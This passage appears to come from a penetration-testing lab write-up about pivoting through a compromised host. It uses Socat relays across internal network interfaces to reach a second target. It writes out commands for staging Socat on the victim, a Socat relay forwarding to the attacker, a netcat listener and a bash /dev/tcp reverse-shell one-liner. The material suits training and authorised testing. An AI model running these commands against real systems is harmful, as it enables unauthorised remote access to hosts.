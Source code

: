 and we can see that's third network interface 30.30.30.0/24 (target 3 -> \<t2\_nat3>.

### Socat

Good, but the matter is that Kali attacker machine isn't reachable by target2:

<div align="left"><figure><img src="../../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure></div>

Bad situation in a PT, where we need to spawn a reverse shell. To solve this problem a tool called [`Socat`](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat) comes in handy.

{% embed url="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat" %}

We are going to use Socat to help us reach Attacker machine from our Target/Victim machine and spawn a shell.&#x20;

<pre class="language-bash"><code class="lang-bash">#Kali
curl https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -o socat #download Socat
chmod +x socat #give execution permission (do it on both machines)
<strong>#transfer Socat on victim machine / target 1
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong><strong>#download on target 1 using wget or similar methods
</strong><strong>#Target 1
</strong><strong>wget &#x3C;kali_nat1>/socat
</strong><strong>chmod +x socat
</strong></code></pre>

```bash
#Target 1
./socat tcp-l:1111,fork,reuseaddr tcp:<kali_nat1>:111 #tcp-l: listening port, send data to tcp:attacker:port
```

Now, we've a reverse connection, and if we listening on Kali machine using on port 111 and we spawn a [reverse shell](https://www.revshells.com/) on target 2 (using Target 2's IP of 2nd net interface in common between target 1 and 2), we obtain a target 2 session on Kali machine.

{% embed url="https://www.revshells.com/" %}

```bash
#Kali
nc -nlvp 111 #listening on port 111
#Target 2
sh -i >& /dev/tcp/<t1_nat2>/1111 0>&1 #Bash -i reverse shell with IP target 1 and socat listening port 1111
```
